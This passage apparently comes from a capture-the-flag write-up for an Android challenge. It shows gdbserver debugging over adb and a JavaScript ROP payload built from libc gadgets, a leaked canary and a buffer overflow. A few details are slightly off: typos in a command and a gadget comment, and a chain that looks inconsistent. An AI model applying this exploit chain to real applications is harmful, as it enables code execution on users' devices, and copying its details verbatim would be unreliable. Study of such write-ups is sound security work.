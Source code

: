 from the backtrace we hit the invokeJavaMethod function correctly and the leaks also seems OK-ish. only one way to find out is by using gdb. Using the shipped gdbserver64 on android immediately crash the gdb session, so I pushed prebuilt gdbserver binary from `$NDK_ROOT/prebuilt/android-x86_64/gdbserver/gdbserver` to android, attach it to the app, and forward tcp with adb.
```
$ adb push $NDK_ROOT/prebuilt/android-x86_64/gdbserver/gdbserver /data/local/tmp/
$ adb forward tcp:1234 tcp:1234
$ adb shell
$ /data/local/tmp/gdbsever :1234 --attach `pidof com.google.ctf.pwn.tridroid`
```
Then inside gdb attach to the forwarded gdbserver port and run the exploit again
```
(gdb) target remote localhost:1234
(gdb) c
...
```
We immediately hit the SEGV and we can inspect it on gdb.
```
Thread 38 "JavaBridge" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 4389.4588]
0x00007727964cbf5c in art::(anonymous namespace)::CheckJNI::GetObjectClass(_JNIEnv*, _jobject*)
    () from target:/apex/com.android.art/lib64/libart.so
(gdb) x/i $pc
=> 0x7727964cbf5c <_ZN3art12_GLOBAL__N_18CheckJNI14GetObjectClassEP7_JNIEnvP8_jobject+60>:
    movaps %xmm0,0x50(%rsp)
(gdb) i r rsp
rsp            0x77273dac9a78      0x77273dac9a78
```
`movaps` requires a 0x10 bytes aligned rsp so that's why it trigger a SEGV. To fix that, all we need to do is just add one ret gadget just before calling the function to fix the stack alignment. Here's the final rop payload,
```js
// 0x0000000000042c92: pop rdi; ret;
// 0x0000000000042d38: pop rsi; ret;
// 0x0000000000046175: pop rdx; r2et;
// 0x0000000000042e58: pop rcx; ret;
// 0x0000000000045e13: pop rax; ret;
var L_pop_rdi = libc_base + 0x42c92n;
var L_pop_rsi = libc_base + 0x42d38n;
var L_pop_rdx = libc_base + 0x46175n;
var L_pop_rcx = libc_base + 0x42e58n;

var payload = "00".repeat(0x28);
payload += canary
payload += p64(stack)
payload += p64(L_pop_rdi) // rop begin
payload += p64(JNIEnv)
payload += p64(jobj)
payload += p64(L_pop_rdx)
payload += p64(heap_n + 0x3070n)
payload += p64(L_pop_rcx)
payload += p64(heap_n + 0x3080n)
payload += p64(L_pop_rdi + 1n) // stack alignment
payload += p64(lib_base + 0xfa0n)
write(heap_n+0x2120n, payload) // modify_element bof
```
